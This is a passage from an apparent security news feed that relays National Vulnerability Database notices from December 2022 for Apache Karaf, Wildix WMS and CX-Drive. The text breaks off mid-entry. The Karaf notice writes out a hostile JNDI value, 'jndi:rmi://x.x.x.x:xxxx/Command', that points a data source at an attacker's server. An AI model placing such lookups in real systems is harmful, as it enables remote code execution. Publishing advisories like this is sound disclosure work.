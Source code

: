 
# cibsecurity
`2022-12-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40145

<blockquote>
‼ CVE-2022-40145 ‼

This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL. The function jaas.modules.src.main.java.porg.apache.karaf.jass.modules.jdbc.JDBCUtils&#35;doCreateDatasource use InitialContext.lookup(jndiName) without filtering. An user can modify `options.put(JDBCUtils.DATASOURCE, &quot;osgi:&quot; + DataSource.class.getName());` to `options.put(JDBCUtils.DATASOURCE,&quot;jndi:rmi://x.x.x.x:xxxx/Command&quot;);` in JdbcLoginModuleTest&#35;setup. This is vulnerable to a remote code execution (RCE) attack when a configuration uses a JNDI LDAP data source URI when an attacker has control of the target LDAP server.This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7. We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-12-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47635

<blockquote>
‼ CVE-2022-47635 ‼

Wildix WMS 6 before 6.02.20221216, WMS 5 before 5.04.20221214, and WMS4 before 4.04.45396.23 allows Server-side request forgery (SSRF) via ZohoClient.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-12-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46282

<blockquote>
‼ CVE-2022-46282 ‼

Use after free vulnerability in CX-Drive V3.00 and earlier allows a local attacker to execute arbitrary code by having a user to open a specially crafted file,
